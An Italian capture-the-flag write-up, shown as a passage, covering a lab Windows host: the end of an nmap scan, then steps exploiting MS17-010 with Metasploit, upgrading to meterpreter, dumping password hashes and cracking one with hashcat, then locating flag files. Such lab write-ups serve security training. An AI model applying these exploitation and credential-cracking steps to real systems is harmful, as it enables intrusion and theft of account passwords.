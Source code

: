 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 160.44 seconds

Exploitation

1.  Con metasploit sfruttare la vulnerabilità ms17-010
2.  Ottenere la shell e fare CTRL+Z per metterla in background
3.  Convertire la shell in sessione meterpreter con questo modulo post:  
    post/multi/manage/shell\_to\_meterpreter
4.  sessions -l per vedere tutte le sessioni
5.  getsystem per vedere se abbiamo ottenuto alti privilegi
6.  con il comando shell si può ottenere una shell pura
7.  con il comando hashdump si ottengono gli hash delle password degli utenti  
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

8.  Usare hashcat per craccare la password:  
    hashcat -m 1000 hash /usr/share/wordlists/rockyou.txt
9.  e poi per visualizzarla:  
    hashcat -m 1000 hash /usr/share/wordlists/rockyou.txt –show  
    ffb43f0de35be4d9917ac0cc8ad57f8d:alqfna22
10.  Per cercare i flag si torna sulla shell meterpreter:  
    meterpreter > search -f flag\*.txt

Found 3 results...

    c:\\flag1.txt (24 bytes)

    c:\\Users\\Jon\\Documents\\flag3.txt (37 bytes)

    c:\\Windows\\System32\\config\\flag2.txt (34 bytes)

  

Privilege escalation

Non necessaria, l’exploit mi faceva già essere SYSTEM
